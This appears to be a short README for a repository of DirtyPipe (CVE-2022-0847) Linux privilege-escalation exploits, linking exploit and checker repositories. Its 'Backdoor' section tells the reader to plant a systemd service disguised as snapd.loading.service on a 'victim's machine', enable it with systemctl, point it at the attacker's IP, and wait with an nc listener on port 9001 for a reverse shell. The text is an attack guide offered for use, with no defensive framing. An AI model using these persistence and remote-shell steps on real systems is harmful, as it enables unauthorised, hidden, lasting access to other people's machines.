 

# CVE-2022-0847-DirtyPipe-Exploits
- https://github.com/febinrev/dirtypipez-exploit
- https://github.com/basharkey/CVE-2022-0847-dirty-pipe-checker

# Backdoor
- On the victim's machine, once priviledge has been achieved, place the snapd.loading.service in /etc/systemd/system folder. And run `$ sudo systemctl enable snapd.loading.service --now`. Note that the IP of the attacker device/server needs to be changed.

- On attacker machine, execute whenever you want to connect: `$ nc -nvlp 9001`


